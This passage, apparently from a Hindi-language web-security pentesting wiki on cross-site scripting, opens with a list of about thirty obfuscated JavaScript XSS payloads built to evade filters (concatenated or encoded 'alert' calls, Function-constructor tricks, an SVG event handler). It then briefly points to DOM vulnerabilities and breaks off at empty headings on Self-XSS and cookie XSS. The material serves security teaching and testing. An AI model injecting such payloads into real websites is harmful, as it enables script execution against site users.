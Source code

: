 ````javascript
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````
## **DOM कमजोरियाँ**

यहाँ **JS कोड** है जो **एक हमलावर द्वारा नियंत्रित असुरक्षित डेटा** का उपयोग कर रहा है जैसे `location.href`। एक हमलावर, इसे मनमाने JS कोड को निष्पादित करने के लिए दुरुपयोग कर सकता है।\
**व्याख्या के विस्तार के कारण** [**DOM कमजोरियों को इस पृष्ठ पर स्थानांतरित किया गया है**](dom-xss.md)**:**

{% content-ref url="dom-xss.md" %}
[dom-xss.md](dom-xss.md)
{% endcontent-ref %}

वहाँ आपको **यहाँ DOM कमजोरियाँ क्या हैं, ये कैसे उत्पन्न होती हैं, और इन्हें कैसे शोषण किया जा सकता है** का विस्तृत **व्याख्या** मिलेगी।\
इसके अलावा, यह न भूलें कि **उल्लेखित पोस्ट के अंत में** आप [**DOM Clobbering हमलों**](dom-xss.md#dom-clobbering) के बारे में एक व्याख्या पा सकते हैं।

### Self-XSS को अपग्रेड करना

### कुकी XSS
